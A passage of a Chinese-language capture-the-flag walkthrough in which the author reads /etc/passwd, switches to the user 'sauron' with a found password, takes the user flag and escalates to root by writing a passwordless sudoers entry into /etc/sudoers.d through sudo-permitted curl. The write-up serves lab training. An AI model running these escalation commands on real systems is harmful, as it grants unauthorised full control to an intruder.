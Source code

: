 ```
cat /etc/passwd
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现sauron用户可以登录，切换下试试

```
su sauron  
输入拿到的密码
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，先看一下flag再找找提权信息

```
cd空格  
ls  
cat user.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，找提权信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以使用任意用户的身份执行curl命令，使用curl命令可以通过下载保存命令替换文件。

curl提权
------

生成一个用户配置文件，可以执行任意命令

```
echo 'sauron ALL=(ALL) NOPASSWD: ALL' > sauron
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

用curl把sauron文件保存到/etc/sudoers.d目录下

```
sudo /usr/bin/curl file:///home/sauron/sauron -o /etc/sudoers.d/sauron
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

验证一下是否成功

```
sudo -l
```
